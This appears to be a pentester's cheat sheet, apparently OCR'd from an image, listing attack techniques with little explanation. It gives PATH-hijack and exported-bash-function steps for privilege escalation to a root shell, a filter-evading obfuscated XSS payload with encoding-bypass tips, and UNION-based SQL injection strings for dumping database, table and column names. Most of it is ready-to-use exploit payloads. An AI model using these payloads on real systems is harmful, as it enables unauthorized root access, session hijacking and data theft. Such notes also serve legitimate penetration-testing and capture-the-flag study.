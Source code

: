 [] >>> means optional command



**PATH Privesc**
### When it is not run directly, example:
## IF THERE'S A SECURE PATH, USE THE SECURE PATH DIRECTORY. IT DOESN'T ALWAYS HAVE TO BE ON /tmp or /dev/shm
/usr/bin/cat >>> cant
cat >>> can
1. cd /tmp
2. echo "/bin/bash" > [the misconfigured]
3. chmod +x [the misconfigured]
4. export PATH=/tmp:$PATH
5. Execute the misconfigured binary

# In Bash versions < 4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.
/usr/sbin/service >>> can
1. function /usr/sbin/service { /bin/bash -p; }
2. export -f /usr/sbin/service
3. Execute the misconfigured binary

### Does not have to be in /tmp, u can create your own folder



**How to create environment variable**
1. export [varname]=[value]
2. echo $[varname]



**XSS**
1. <detail/open/ontoggle=alert()>
2. 𒀀='',𒉺=!𒀀+𒀀,𒀃=!𒉺+𒀀,𒇺=𒀀+{},𒌐=𒉺[𒀀++],
𒀟=𒉺[𒈫=𒀀],𒀆=++𒈫+𒀀,𒁹=𒇺[𒈫+𒀆],𒉺[𒁹+=𒇺[𒀀]
+(𒉺.𒀃+𒇺)[𒀀]+𒀃[𒀆]+𒌐+𒀟+𒉺[𒈫]+𒁹+𒌐+𒇺[𒀀]
+𒀟][𒁹](𒀃[𒀀]+𒀃[𒈫]+𒉺[𒀆]+𒀟+𒌐+"(𒀀)")()

https://aem1k.com/aurebesh.js/#%3Cscript%3Eak

3. ..
4. U can use this to bypass filter https://www.web2generators.com/html-based-tools/online-html-entities-encoder-and-decoder


**Little SQLI**
1. 'UNION SELECT 1,table_name,column_name FROM information_schema.columns -- -
2. 'UNION SELECT 1,group_concat(sql),3 FROM sqlite_master -- -
3. 'UNION SELECT 1,group_concat(schema_name),3,4 from information_schema.schemata -- - (get list of databases)
4. 'UNION SELECT group_concat(column_name),group_concat(table_name),3,4 from information_schema.columns WHERE table_schema='[db_name]'-- -
